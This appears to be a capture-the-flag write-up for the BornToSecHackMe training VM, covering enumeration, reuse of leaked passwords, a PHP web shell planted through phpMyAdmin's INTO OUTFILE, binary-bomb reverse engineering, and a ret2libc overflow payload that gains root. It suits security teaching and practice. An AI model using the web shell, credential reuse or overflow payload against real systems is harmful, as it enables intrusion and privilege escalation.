



first we will use nmap to get the ip of the VM, and scan it's open ports.



we can see multiple ports open, including a http server. opening the web page we are greeted by a simple useless static html page. instead we will use a tool (dirsearch here) to find http path based on a wordlist.



we see there is a forum, a webmail, and a phpmyadmin.

let's see the forum.

there is only 4 posts. the only interesting is `Probleme login ? - lmezard` where he posted the log of his failed login.

scrolling through the logs, we can see at a point he mistakenly entered his password in the username field, which is not hidden: ` Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2`

we can try to connect to the multiples services, but the only that work is on the forum itself as the user `lmezard` with the password `!q\]Ej?*5K5cy*AJ`.

now we can access the account private informations, including it's email `laurie@borntosec.net` that we can use to connect to the webmail.

we can see a mail saying

> Hey Laurie,
>
> You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$
>
> Best regards.

well now we can connect to the phpmyadmin instance, it's very useful as we can use it to write sql query, and mysql is able to write to a file using `INTO OUTFILE` command.

trying to write a simple command launcher into the http server directory `SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/backdoor.php"` fails. we need to find a location where we have write access.

maybe with the forum ? looking at the forum source code (mylittleforum) there is multiples directory, trying multiples we find `templates_c` where we can write the file.

so now we just have to access it: `curl --insecure https://vm/forum/templates_c/backdoor.php?cmd=whoami` and we are www-data as expected.

trying to find something, we can `ls` the `/home` dir and get `LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz`

the only dir we can access is `LOOKATME`, where there a single `password` file with `lmezard:G!@M6f4Eatau{sF"` inside.

ssh don't work, but ftp does.

we can see two file, a readme with `Complete this little challenge and use the result as password for user 'laurie' to login in ssh` and a `fun` named file. using the `file` command we can see it's archive.

the archive is 750 .pcap files, but that are just text file and not packet captures.
each file seems to contain C code. a file contain the main function:

```c
int main() {
        printf("M");
        printf("Y");
        printf(" ");
        printf("P");
        printf("A");
        printf("S");
        printf("S");
        printf("W");
        printf("O");
        printf("R");
        printf("D");
        printf(" ");
        printf("I");
        printf("S");
        printf(":");
        printf(" ");
        printf("%c",getme1());
        printf("%c",getme2());
        printf("%c",getme3());
        printf("%c",getme4());
        printf("%c",getme5());
        printf("%c",getme6());
        printf("%c",getme7());
        printf("%c",getme8());
        printf("%c",getme9());
        printf("%c",getme10());
        printf("%c",getme11());
        printf("%c",getme12());
        printf("\n");
        printf("Now SHA-256 it and submit");
}
```

and some other files contain part of the getmeX function that return a char.
and most importantly, each file contain a comment like this `//file254` which probably indicate the order of the file.

to reconstruct the code we can write a simple script: `for i in {1..750}; do echo | cat $(rg -l "file$i$") - >> main.c; done`
then `cc main.c` and `./a.out`: `MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit`
so `echo -n Iheartpwnage | sha256sum`: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`
which allow us to ssh into the laurie user.

there is a readme:

> Diffuse this bomb!
> When you have all the password use it as "thor" user with ssh.
>
> HINT:
> P
> 2
> b
>
> o
> 4
>
> NO SPACE IN THE PASSWORD (password is case sensitive).

and a binary `bomb`, we copy it on our host to analyze it using a decompiler, like binaryninja.

we can see the main function with multiples phases.

the phase1 function just check if the input is `Public speaking is very easy.`.

```c
08048b20  {
08048b32      int32_t eax_1 = strings_not_equal(arg1, "Public speaking is very easy.");
08048b3c      if (eax_1 == 0)
08048b3a      {
08048b46          return eax_1;
08048b46      }
08048b3e      explode_bomb();
08048b3e      /* no return */
08048b3e  }
```

the phase 2 read 6 number from the user, and check if each number follow this rule `f(x + 1) = f(x) * x`.
we know from the hint that the second number is 2, so we can deduce the first number is 1, and just use the function above for the rest: `1 2 6 24 120 720`.

```c
08048b48  {
08048b5b      int32_t var_1c;
08048b5b      read_six_numbers(arg1, &var_1c);
08048b67      if (var_1c != 1)
08048b63      {
08048b69          explode_bomb();
08048b69          /* no return */
08048b69      }
08048b6e      int32_t i = 1;
08048b8c      int32_t eax_2;
08048b8c      do
08048b8c      {
08048b79          void var_20;
08048b79          eax_2 = ((i + 1) * *(uint32_t*)(&var_20 + (i << 2)));
08048b81          if (&var_1c[i] != eax_2)
08048b7e          {
08048b83              explode_bomb();
08048b83              /* no return */
08048b83          }
08048b88          i = (i + 1);
08048b88      } while (i <= 5);
08048b96      return eax_2;
08048b96  }
```

phase3 read a number, a char, and a number. from the hint we know the char is `b`. renaming the variable we can easily understand the few checks happening, and find that the only correct input to get `b` is `1`, and in this case the second number must be `214`.

```c
08048b98  {
08048bc2      int32_t a;
08048bc2      char b;
08048bc2      int32_t c;
08048bc2      if (sscanf(arg1, "%d %c %d", &a, &b, &c) <= 2)
08048bbf      {
08048bc4          explode_bomb();
08048bc4          /* no return */
08048bc4      }
08048bcd      int32_t ebx;
08048bcd      if (a > 7)
08048bc9      {
08048c88          ebx = 0x78;
08048c8a          explode_bomb();
08048c8a          /* no return */
08048c8a      }
08048bd3      int32_t a_1 = a;
08048bd6      switch (a_1)
08048bd6      {
08048be0          case 0:
08048be0          {
08048be0              ebx = 'q';
08048be9              if (c != 777)
08048be2              {
08048bef                  explode_bomb();
08048bef                  /* no return */
08048bef              }
08048bef              break;
08048bef          }
08048c00          case 1:
08048c00          {
08048c00              ebx = 'b';
08048c09              if (c != 214)
08048c02              {
08048c0f                  explode_bomb();
08048c0f                  /* no return */
08048c0f              }
08048c0f              break;
08048c0f          }
08048c16          case 2:
08048c16          {
08048c16              ebx = 'b';
08048c1f              if (c != 755)
08048c18              {
08048c21                  explode_bomb();
08048c21                  /* no return */
08048c21              }
08048c21              break;
08048c21          }
08048c28          case 3:
08048c28          {
08048c28              ebx = 'k';
08048c31              if (c != 251)
08048c2a              {
08048c33                  explode_bomb();
08048c33                  /* no return */
08048c33              }
08048c33              break;
08048c33          }
08048c40          case 4:
08048c40          {
08048c40              ebx = 'o';
08048c49              if (c != 160)
08048c42              {
08048c4b                  explode_bomb();
08048c4b                  /* no return */
08048c4b              }
08048c4b              break;
08048c4b          }
08048c52          case 5:
08048c52          {
08048c52              ebx = 't';
08048c5b              if (c != 458)
08048c54              {
08048c5d                  explode_bomb();
08048c5d                  /* no return */
08048c5d              }
08048c5d              break;
08048c5d          }
08048c64          case 6:
08048c64          {
08048c64              ebx = 'v';
08048c6d              if (c != 780)
08048c66              {
08048c6f                  explode_bomb();
08048c6f                  /* no return */
08048c6f              }
08048c6f              break;
08048c6f          }
08048c76          case 7:
08048c76          {
08048c76              ebx = 'b';
08048c7f              if (c != 524)
08048c78              {
08048c81                  explode_bomb();
08048c81                  /* no return */
08048c81              }
08048c81              break;
08048c81          }
08048c81      }
08048c92      if (ebx == b)
08048c8f      {
08048c9f          return a_1;
08048c9f      }
08048c94      explode_bomb();
08048c94      /* no return */
08048c94  }
```

phase4 `func4` seems to be a fibonacci function and the input a single digit not zero. we must find which index into the suite return 55, which is 9 (from google).

```c
08048ca0  int32_t func4(int32_t arg)
08048ca0  {
08048cae      int32_t ret;
08048cae      if (arg <= 1)
08048cab      {
08048cd0          ret = 1;
08048cd0      }
08048cb7      else
08048cb7      {
08048cb7          int32_t res = func4((arg - 1));
08048cca          ret = (func4((arg - 2)) + res);
08048cca      }
08048cdd      return ret;
08048cdd  }

08048ce0  int32_t phase_4(char* arg1)

08048ce0  {
08048d07      int32_t input;
08048d07      if ((sscanf(arg1, &data_8049808, &input) == 1 && input > 0))
08048d03      {
08048d15          int32_t res = func4(input);
08048d20          if (res == 55)
08048d1d          {
08048d2a              return res;
08048d2a          }
08048d22          explode_bomb();
08048d22          /* no return */
08048d22      }
08048d09      explode_bomb();
08048d09      /* no return */
08048d09  }
```

phase5 we need a input of 6 char, and the function will transform it using by doing a binary "and" by 0xf (15) and then as a index into a char table, and compare it to `giants`.
we need to find the char that when AND by 0xf gives us 15, 0, 5, 11, 13, 1 (their index into the char table)
using a simple script (see the script dir) we are able to find multiples solutions:

```
opemka
opukma
opekmq
opukmq
```

and the code:

```c
08048d2c  {
08048d46      if (string_length(arg) != 6)
08048d43      {
08048d48          explode_bomb();
08048d48          /* no return */
08048d48      }
08048d4d      int32_t i = 0;
08048d69      void string;
08048d69      do
08048d69      {
08048d57          int32_t eax;
08048d57          eax = arg[i];
08048d5a          eax = (eax & 0xf);
08048d5f          eax = *(uint8_t*)(((int32_t)eax) + "isrveawhobpnutfg");
08048d62          *(uint8_t*)(i + &string) = eax;
08048d65          i = (i + 1);
08048d65      } while (i <= 5);
08048d6b      char var_6 = 0;
08048d7b      int32_t string_not_equal = strings_not_equal(&string, "giants");
08048d85      if (string_not_equal == 0)
08048d83      {
08048d94          return string_not_equal;
08048d94      }
08048d87      explode_bomb();
08048d87      /* no return */
08048d87  }
```

phase6: the code wasn't readable, so i wrote a bruteforce program (see script) in rust that try every permutations of digit 0 to 9, and find `4 2 6 3 1 5`.
the subject warn us about this part: `For the part related to a (bin) bomb: If the password found is 123456. The password to use is 123546.` so we will just swap the 1 and 3.

```c
08048d98  int32_t phase_6(char* arg1)

08048d9f      void* esi
08048d9f      void* var_58 = esi
08048db3      void var_1c
08048db3      read_six_numbers(arg1, &var_1c)
08048db8      int32_t i = 0
08048e00      do
08048dca          if (*(&var_1c + (i << 2)) - 1 u> 5)
08048dcc              explode_bomb()
08048dcc              noreturn
08048dd1          int32_t j = i + 1
08048dd7          if (j s<= 5)
08048dfa              do
08048def                  if (*((i << 2) + &var_1c) == *(&var_1c + (j << 2)))
08048df1                      explode_bomb()
08048df1                      noreturn
08048df6                  j = j + 1
08048df6              while (j s<= 5)
08048dfc          i = i + 1
08048dfc      while (i s<= 5)
08048e02      int32_t i_1 = 0
08048e42      int32_t* var_34
08048e42      do
08048e10          void* esi_3 = &node1
08048e13          int32_t j_1 = 1
08048e18          int32_t eax_5 = i_1 << 2
08048e24          if (1 s< *(eax_5 + &var_1c))
08048e29              esi_3 = &node1
08048e36              do
08048e30                  esi_3 = *(esi_3 + 8)
08048e33                  j_1 = j_1 + 1
08048e33              while (j_1 s< *(eax_5 + &var_1c))
08048e0a          (&var_34)[i_1] = esi_3
08048e3e          i_1 = i_1 + 1
08048e3e      while (i_1 s<= 5)
08048e44      int32_t* esi_4 = var_34
08048e47      int32_t* var_38 = esi_4
08048e4a      int32_t i_2 = 1
08048e5e      do
08048e52          int32_t* eax_7 = (&var_34)[i_2]
08048e55          esi_4[2] = eax_7
08048e58          esi_4 = eax_7
08048e5a          i_2 = i_2 + 1
08048e5a      while (i_2 s<= 5)
08048e60      esi_4[2] = 0
08048e6a      int32_t i_3 = 0
08048e6c      int32_t* esi_6 = var_38
08048e85      int32_t eax_8
08048e85      do
08048e73          eax_8 = *esi_6
08048e77          if (eax_8 s< *esi_6[2])
08048e79              explode_bomb()
08048e79              noreturn
08048e7e          esi_6 = esi_6[2]
08048e81          i_3 = i_3 + 1
08048e81      while (i_3 s<= 4)
08048e90      return eax_8

```

so the final possible password are:
`Publicspeakingisveryeasy.126241207201b2149opekma426135`
`Publicspeakingisveryeasy.126241207201b2149opukma426135`
`Publicspeakingisveryeasy.126241207201b2149opekmq426135`
`Publicspeakingisveryeasy.126241207201b2149opukmq426135`

the third one `Publicspeakingisveryeasy.126241207201b2149opekmq426135` worked !
there is a readme: `Finish this challenge and use the result as password for 'zaz' user. `
and a turtle file: ```
[...]
Avance 1 spaces
Tourne droite de 1 degrees
Avance 50 spaces

Avance 100 spaces
Recule 200 spaces
Avance 100 spaces
Tourne droite de 90 degrees
Avance 100 spaces
Tourne droite de 90 degrees
Avance 100 spaces
Recule 200 spaces

Can you digest the message? :)

```
with instructions to draw something, and a clue at the end, which probably mean we need to digest the drawing using a hashing method like sha256 or md5.
```

we wrote a simple script to draw the turtle instructions, which reveal the word `SLASH`.
i tried to ssh with the sha256 of the word, but it didn't work, so i tried with another digest, md5, and it worked.

now on the user zaz, there is a empty email folder, and setuid binary, which mean it's run as root, if we can exploit it we can get root access.
opening the binary in binaryninja we can see it's a simple program that copy a user provided string into a buffer without checking the size. we can make the program write more data than the size of the buffer and overwrite the return address of main to the `system` function with `/bin/sh` as a argument, and get a root shell (ret2libc attack).

```c
080483f4  int32_t main(int32_t argc, char** argv, char** envp)

08048404      int32_t eax
08048404      if (argc s> 1)
08048420          void str
08048420          strcpy(&str, argv[1])
0804842c          puts(str: &str)
08048431          eax = 0
08048406      else
08048406          eax = 1
08048437      return eax
```

binaryninja tells us `str` have a stack offset of -0x90 (144) and there is a int just before taking 4 bytes, so we know the buffer is 140 bytes long.
to make our payload we need to fill the buffer with 140 bytes, then the address of `system`, and after that the adress of a block of text containing `/bin/sh` that will be used by `system` as argument.
in gdb:

```
(gdb) print system
$2 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

to get a pointer to a string containing `/bin/sh` there is multiples possibilities, like using a environment variable, passing it in argv[1] to be copied, or the simplest finding it in the libc.

```
(gdb) info proc map
process 2147
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/zaz/exploit_me
         0x8049000  0x804a000     0x1000        0x0 /home/zaz/exploit_me
        0xb7e2b000 0xb7e2c000     0x1000        0x0
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0
        0xb7fda000 0xb7fdd000     0x3000        0x0
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e6b060  system
A syntax error in expression, near `system'.
(gdb) find 0xb7e2c000,0xb7fd2000,"/bin/sh"
0xb7f8cc58
1 pattern found.
```

writing our exploit:

```shell
./exploit_me $(python -c 'print "i"*140 + "\x60\xb0\xe6\xb7" + "i"*4 + "\x58\xcc\xf8\xb7"')
```

the four spacer between the address of `system` and the address of `/bin/sh` is to fill the 4 bytes corresponding to the return address of the new stack frame created for system. the argument to a function is right after.

running our exploit and we are root.
